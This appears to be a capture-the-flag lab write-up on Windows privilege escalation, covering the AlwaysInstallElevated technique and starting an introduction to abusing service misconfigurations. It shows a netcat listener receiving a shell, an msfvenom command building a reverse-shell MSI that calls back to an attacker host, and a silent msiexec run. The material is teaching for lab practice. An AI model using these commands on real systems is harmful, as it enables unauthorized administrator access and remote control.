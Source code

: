 ## Kali Linux
user@attackerpc$ nc -lvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.175.90 50649
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
wprivesc1\taskusr1
Go to taskusr1 desktop to retrieve a flag. Don't forget to input the flag at the end of this task.


# AlwaysInstallElevated
Windows installer files (also known as .msi files) are used to install applications on the system. 
They usually run with the privilege level of the user that starts it. However, these can be configured to run with higher privileges from any user account (even unprivileged ones). 
This could potentially allow us to generate a malicious MSI file that would run with admin privileges.

Note: The AlwaysInstallElevated method won't work on this room's machine and it's included as information only.

This method requires two registry values to be set. You can query these from the command line using the commands below.

## Command Prompt
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer


To be able to exploit this vulnerability, both should be set. Otherwise, exploitation will not be possible. 
If these are set, you can generate a malicious .msi file using msfvenom, as seen below:

msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi

As this is a reverse shell, you should also run the Metasploit Handler module configured accordingly. 
Once you have transferred the file you have created, you can run the installer with the command below and receive the reverse shell:

## Command Prompt
C:\> msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi

Abusing Service Misconfigurations
Windows Services
Windows services are managed by the Service Control Manager (SCM). The SCM is a process in charge of managing the state of services as needed, checking the current status of any given service and generally providing a way to configure services.

Each service on a Windows machine will have an associated executable which will be run by the SCM whenever a service is started. It is important to note that service executables implement special functions to be able to communicate with the SCM, and therefore not any executable can be started as a service successfully. Each service also specifies the user account under which the service will run.
